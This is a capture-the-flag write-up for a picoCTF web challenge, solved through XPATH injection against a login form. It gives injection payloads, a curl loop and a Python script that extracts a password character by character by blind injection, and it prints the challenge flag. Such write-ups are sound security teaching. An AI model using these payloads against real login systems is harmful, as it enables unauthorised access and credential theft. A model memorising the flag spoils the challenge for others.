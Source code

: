 # X marks the spot
Category: Web, 250 points

## Description

> Another login you have to bypass. Maybe you can find an injection that works?
> 
> Hint: XPATH


## Solution

Visiting the website, we are presented with a login form (and a Robert Frost poem):

```html

        <div class="login-form">
            <form role="form" action="/" method="post">
            <div class="row">
                <div class="form-group col-xs-6">
                    <input type="text" name="name" id="name" class="form-control input-lg" placeholder="username">
                </div>
                <div class="form-group col-xs-6">
                    <input type="text" name="pass" id="pass" class="form-control input-lg" placeholder="password">
                </div>
            </div>
            <div class="row">
                <div class="col-xs-4">
                </div>
                <div class="col-xs-4">
                    <input type="submit" class="btn btn-lg btn-primary btn-block" value="Login">
                </div>
                <div class="col-xs-4">
                </div>
            </div>
			</form>
			<!--
			Two roads diverged in a yellow wood,
			And sorry I could not travel both
			And be one traveler, long I stood
			And looked down one as far as I could
			To where it bent in the undergrowth;

			Then took the other, as just as fair,
			And having perhaps the better claim,
			Because it was grassy and wanted wear;
			Though as for that the passing there
			Had worn them really about the same,

			And both that morning equally lay
			In leaves no step had trodden black.
			Oh, I kept the first for another day!
			Yet knowing how way leads on to way,
			I doubted if I should ever come back.

			I shall be telling this with a sigh
			Somewhere ages and ages hence:
			Two roads diverged in a wood, and I—
			I took the one less traveled by,
			And that has made all the difference.
										-Robert Frost
				-->
		</div>
	  </div>
```

The hint says "XPATH", and using some common XPATH injection techniques we can leak some information about the underlying DB. The idea is similar to SQL injection. We have a vulnerable query for authenticating the username and password which should be similar to:

```
string(//user[name/text()='" + input_username + "' and password/text()='" + input_password + "']/account/text())
```

So, if we inject some valid XPATH vocabulary into the query, we can manipulate it. 

For example, let's inject:

```
' or string-length(//user[position()=1]/pass)>1 or 'a'='
```

This should tell us if the password of the first username is longer than 1 character. If we submit this as the username, we get back a response from the server telling us that "You're on the right path", so we can deduce that password is longer than 1. If we try this, on the other hand, we receive a "Login Failure":

```
' or string-length(//user[position()=1]/pass)>30 or 'a'='
```

So the password is shorter than 30 characters.

Let's use the following syntax to iterate some users and check if someone's password starts with `"pico"`:

```
' or //user[position()=1]/pass[starts-with(text(),'pico')] or 'a'='
```

We'll use `curl`:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/Wireshark_twoo_twooo_two_twoo]
└─$ for i in {0..10}
do
    echo $i
    curl -s 'http://mercury.picoctf.net:16521/'  -H 'Content-Type: application/x-www-form-urlencoded' --data-raw "name=' or //user[position()=$i]/pass[starts-with(text(),'pico')] or 'a'='+&pass=a" | grep right
done
0
1
2
3
          <!-- <strong>Title</strong> --> You&#39;re on the right path.
4
5
6
7
8
9
10
```

We got a match for the third user. Now let's extract his password with the following script:

```python
from pwn import *
import requests
import string
import urllib

user_id = 3
password = ""

with log.progress('Brute-forcing password') as p:
    index = 1
    while not password.endswith("}"):
        for c in string.ascii_letters + "{}_"  + string.digits:
            p.status(f"Index: {index}, known password: '{password}', trying: '{c}'")
            r = requests.post("http://mercury.picoctf.net:16521/", data = {"name": f"' or substring(//user[position()={user_id}]/pass,{index},1)='{c}' or 'a'='", "pass": "test"})
            if "right" in r.text:
                password += c
                break
        else:
            print(f"Can't find character for index {index}!")
            break

        index += 1
        

print(f"Password: {password}")
```

The script uses XPATH `substring` to brute force the password character by character.

Output:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/X_marks_the_spot]
└─$ python3 solve.py
[+] Brute-forcing password: Done
Password: picoCTF{h0p3fully_u_t0ok_th3_r1ght_xp4th_28cb0023}
```

The flag: `picoCTF{h0p3fully_u_t0ok_th3_r1ght_xp4th_28cb0023}`